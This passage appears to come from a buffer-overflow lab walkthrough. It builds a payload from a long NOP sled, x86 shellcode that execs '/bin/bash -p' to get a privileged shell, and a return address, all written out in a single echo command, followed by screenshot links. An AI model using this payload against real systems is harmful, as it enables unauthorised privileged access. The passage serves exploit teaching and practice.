 Build the payload with 264 bytes of NOP (`\x90`), the shellcode, and a dummy return address.
```bash
`echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80\xf0\xd4\xff\xff"`
```

<img src="./img/Screenshot 2024-10-13 103408.png"></img>
<img src="./img/Screenshot 2024-10-13 103352.png"></img>